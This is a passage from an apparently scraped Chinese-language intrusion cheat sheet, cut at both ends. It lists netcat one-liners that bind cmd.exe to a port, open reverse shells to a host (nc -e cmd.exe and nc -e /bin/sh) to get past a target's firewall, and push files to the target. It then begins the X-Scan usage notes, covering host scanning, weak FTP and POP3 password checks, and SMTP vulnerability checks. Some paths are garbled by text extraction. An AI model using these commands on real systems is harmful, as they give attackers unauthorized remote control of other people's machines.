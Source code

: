 nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定 remote 主机的 cmdshell 在 remote 的 TCP 5354 端口

nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定 remote 主机的 cmdshell 并反向连接 192.168.0.2 的 5354 端口

高级用法：

nc -L -p 80 作为蜜罐用 1：开启并不停地监听 80 端口，直到 CTR+C 为止

nc -L -p 80 > c:log.txt 作为蜜罐用 2：开启并不停地监听 80 端口，直到 CTR+C,同时把结果输出到 c:log.txt

nc -L -p 80 < c:honeyport.txt 作为蜜罐用 3-1：开启并不停地监听 80 端口，直到 CTR+C,并把 c:honeyport.txt 中内容送入管道中，亦可起到传送文件作用

type.exe c:honeyport | nc -L -p 80 作为蜜罐用 3-2：开启并不停地监听 80 端口，直到 CTR+C,并把 c:honeyport.txt 中内容送入管道中,亦可起到传送文件作用

本机上用：nc -l -p 本机端口

在对方主机上用：nc -e cmd.exe 本机 IP -p 本机端口 \*win2K

nc -e /bin/sh 本机 IP -p 本机端口 \*linux,unix 反向连接突破对方主机的防火墙

本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称

在对方主机上用：nc -vv 本机 IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机

备 注：

| 管道命令

< 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把 test.txt 的内容赋值给 tlntadmn 命令

@ 表示执行@后面的命令，但不会显示出来（后台执行）；例：[@dir ](/dir) c:winnt >> d:log.txt 意思是：后台执行 dir，并把结果存在 d:log.txt 中

> 与>>的区别 ">"指：覆盖；">>"指：保存到(添加到）。

如：[@dir ](/dir) c:winnt >> d:log.txt 和[@dir ](/dir) c:winnt > d:log.txt 二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。

八：

扫描工具：xscan.exe

基本格式

xscan -host <起始 IP>[-<终止 IP>] <检测项目> [其他选项] 扫锚"起始 IP 到终止 IP"段的所有主机信息

xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机 IP 列表文件名"中的所有主机信息

检测项目

-active 检测主机是否存活

-os 检测远程操作系统类型（通过 NETBIOS 和 SNMP 协议）

-port 检测常用服务的端口状态

-ftp 检测 FTP 弱口令

-pub 检测 FTP 服务匿名用户写权限

-pop3 检测 POP3-Server 弱口令

-smtp 检测 SMTP-Server 漏洞
